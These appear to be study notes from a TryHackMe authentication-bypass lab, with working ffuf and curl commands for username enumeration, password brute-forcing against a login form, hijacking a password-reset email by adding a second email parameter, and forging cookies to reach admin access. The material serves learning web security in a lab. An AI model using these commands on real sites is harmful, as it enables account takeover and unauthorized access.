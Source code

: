 ### Table of contents
- [[#Username Enumeration]]
- [[#Brute Force]]
- [[#Logic Flaw]]
- [[#Cookie Tampering]]

___
### Username Enumeration
[[#Table of contents|Back to the top]]

When creating an account on a website, if account with username already exists we are notified 
$\rightarrow$ exploit this to create list of valid usernames

```Shell
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.218.54/customers/signup -mr "username already exists"
```
-d: data we are sending
-H: add additional headers to request; here setting Content type so server knows we're sending form data
-mr: text on page we're looking that indicates valid username

`nano valid_usernames.txt`, save the results

___
### Brute Force
[[#Table of contents|Back to the top]]

```Shell
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.218.54/customers/login -fc 200
```
Using multiple wordlists $\rightarrow$ can't use "FUZZ", have to specify other keyword $\rightarrow$ `W1`, `W2`
-fc 200: checks for HTTP code other than 200

*Test without -fc 200 $\rightarrow$ almost all results are 200, so exclude to show anomaly*

___
### Logic Flaw
[[#Table of contents|Back to the top]]

Exploiting bad coding

```Shell
curl 'http://10.10.218.54/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

When form is submitted key-value pairs are created: `email=robert@acmeitsupport.thm` and `username=robert`

We create an account in order to receive the ticket with the reset link

We can overwrite email for the reset link to be sent to us
```Shell
curl 'http://10.10.218.54/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=billy@customer.acmeitsupport.thm'
```

___
### Cookie Tampering

Do [this room](https://tryhackme.com/room/httpindetail) for better understanding of cookies

$\rightarrow$ unauthenticated access, access to other user account, elevated privileges

#### Plain Text
[[#Table of contents|Back to the top]]

Some cookies content is in plain text and very obvious:
```Java
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/
```

Then we can try to modify the cookie's content at our advantage

```Shell
curl http://10.10.218.54/cookie-test
```
$\rightarrow$ "Not Logged In"

```Shell
curl -H "Cookie: logged_in=true; admin=false" http://10.10.218.54/cookie-test
```
$\rightarrow$ "Logged In As User"

```Shell
curl -H "Cookie: logged_in=true; admin=true" http://10.10.218.54/cookie-test
```
$\rightarrow$ "Logged In As An Admin"

#### Hashing
[[#Table of contents|Back to the top]]

Sometimes cookie values are hashed

**[CrackStation](https://crackstation.net/)**: databases of billions of hashes and their original strings

#### Encoding
[[#Table of contents|Back to the top]]

If cookie is encoded, **[decode](https://base64decode.org)** it, **change** value, **[recode](https://www.base64encode.org/)** it